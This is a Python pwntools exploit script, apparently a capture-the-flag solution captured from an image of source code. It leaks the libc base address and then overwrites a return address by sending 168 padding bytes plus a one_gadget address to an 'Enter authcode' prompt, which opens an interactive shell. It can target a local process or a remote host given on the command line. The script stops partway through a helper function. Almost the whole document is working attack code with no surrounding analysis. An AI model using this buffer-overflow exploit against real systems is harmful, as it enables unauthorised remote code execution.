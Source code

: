 ```python
def main():
    io = start_conn()

    libc_leak_offset = 0x1255E0
    io.recvuntil("0x7")
    leak = b'7' + io.recvuntil("0x")[:-2]
    libc_base = int(leak, 16) - libc_leak_offset
    print(f'[*] Leaked libc base: {hex(libc_base)}')
    validate_leaked_addresses(io, libc_base=libc_base)

    one_gadget_offset = 0x4f29e
    one_gadget_offset = 0x4f2a5
    # one_gadget_offset = 0x4f302
    # one_gadget_offset = 0x10a2fc

    one_gadget = libc_base + one_gadget_offset

    ret_offset = 168
    io.sendlineafter("Enter authcode: ", b"A" * ret_offset + p64(one_gadget))

    io.interactive()
    clean_up()







### Helper start

def start_conn():
    if args.REMOTE:
        log.info(Template('Starting with remote connection to $HOST on port $PORT...').substitute(HOST=sys.argv[1], PORT=sys.argv[2]))
        io = remote(sys.argv[1], sys.argv[2])
    else:
        log.info('Starting locally...')
        io = process([exe.path], env=ENV_VARS)
        if args.GDB:
            log.info('Starting with GDB...')
            gdb.attach(io, gdbscript=gdbscript, exe=exe.path)
    return io


def get_string_between(res, first_const_str, second_const_str):
    return res.split(first_const_str)[1].split(second_const_str)[0]


def get_mapping_offset(proc_mapping, search_for):
    heap_offset = 0
    for i, mapping in enumerate(proc_mapping):
        if search_for in mapping:
            heap_offset = i
            break
    return heap_offset


def validate_leaked_addr(proc_mapping, offset, given_addr, addr_name):
    true_base = int(proc_mapping[offset].split('-')[0], 16)
    if int(given_addr) != true_base:
        log.critical(
```